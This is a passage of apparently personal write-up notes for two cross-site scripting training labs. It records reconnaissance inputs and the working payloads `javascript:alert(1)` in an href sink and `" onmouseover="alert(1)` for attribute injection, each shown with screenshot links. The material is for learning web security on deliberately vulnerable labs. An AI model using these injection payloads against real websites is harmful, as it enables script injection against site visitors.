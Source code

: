 3. How about inject into website place?
Website: `https://test.sbkblog.online"<script>alert(123)</script>//`
![](https://i.imgur.com/kfP6IeN.png)
Still not working here

4. <font color="FF0000">According to **Lab: DOM XSS in jQuery anchor `href` attribute sink using `location.search` source**</font>
We know that we can inject XSS in `href` attribute by using the payload: `javascript:alert(1)`

### Exp
Website Payload: `javascript:alert(1)`
![](https://i.imgur.com/u6COY4h.png)

:::spoiler Success Screenshot
![](https://i.imgur.com/Qj21zuC.png)
:::


---
## Lab: Reflected XSS into attribute with angle brackets HTML-encoded
* Description: This lab contains a reflected cross-site scripting vulnerability in the search blog functionality where angle brackets are HTML-encoded.
* Goal: To solve this lab, perform a cross-site scripting attack that injects an attribute and calls the alert function.
### Recon
1. Find the place to inject
Input: `abc`
![](https://i.imgur.com/RfMiJ1W.png)
Seems we have 2 candidates

2.  How about script tag
Input: `<script>alert(123)</script>`
![](https://i.imgur.com/mLhHdgh.png)
Seems angle brackets are HTML-encoded and not working properly.

3. How about `href` attribute?
Input: `"javascript:alert(123)`
![](https://i.imgur.com/NNm3USg.png)
Still not working for input tag.

### Exp - <font color="FF0000">New payload</font>
Input: `" onmouseover="alert(1)`
![](https://i.imgur.com/BDO0c0s.png)

:::spoiler Success Screenshot
![](https://i.imgur.com/jvGdCEE.png)
:::
